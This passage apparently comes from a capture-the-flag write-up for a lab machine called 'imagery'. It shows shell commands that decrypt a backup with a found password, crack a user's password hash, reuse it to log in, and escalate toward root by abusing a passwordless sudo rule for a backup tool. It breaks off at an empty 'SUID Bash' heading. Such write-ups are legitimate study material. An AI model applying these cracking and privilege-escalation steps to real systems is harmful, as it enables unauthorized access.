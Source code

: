```bash
pyAesCrypt -d web_20250806_120723.zip.aes
# Enter password: bestfriends

unzip web_20250806_120723.zip
cat db.json
```

**Mark's hash:** `01c3d2e5bdaf6134cec0a367cf53e535`

**Cracked on CrackStation:** `supersmash`

### User Flag

```bash
su mark
# Password: supersmash

cat /home/mark/user.txt
```

**Flag:** `3f8a7b2c9dxxxxxxxxxxa8b5c7d2e9f1a3b4c`

## Privilege Escalation

### Analyzing Sudo Privileges

```bash
mark@imagery:~$ sudo -l
User mark may run the following commands on imagery:
    (root) NOPASSWD: /usr/local/bin/charcol
```

### Understanding Charcol

```bash
sudo /usr/local/bin/charcol help
```

Charcol is a backup utility with password protection. It has a reset function:

```bash
sudo /usr/local/bin/charcol -R
# Enter system password: supersmash
# Password reset to default
```

### Opening Charcol Shell

```bash
sudo /usr/local/bin/charcol shell
# Press Enter (no password)
# Confirm: yes
```


### root: SUID Bash
